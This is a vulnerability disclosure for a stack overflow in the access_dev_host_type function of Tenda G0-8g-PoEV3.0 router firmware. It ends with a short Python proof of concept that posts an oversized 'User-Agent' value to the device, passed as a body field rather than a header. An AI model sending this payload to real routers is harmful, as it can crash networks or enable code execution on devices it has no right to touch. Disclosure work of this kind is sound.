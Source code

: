 # Tenda G0-8g-PoEV3.0 access_dev_host_type
### Overview
vendor: Tenda

product: G0-8g-PoEV3.0

version: V16.01.15.5(3680)

type: Stack Overflow
### Vulnerability Description
Tenda G0-8g-PoEV3.0 V16.01.15.5(3680) were discovered to contain a stack overflow in the access_dev_host_type function.
### Vulnerability details
In function access_dev_host_type line 15、19, it reads in a user-provided parameter `User-Agent`, and the variable `v5` is passed to the `memcpy` function without any length check, which may overflow the stack-based buffer `v6`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/G0-8g-poev30-1-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/'
payload = {
    "User-Agent": 'a' * 2000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
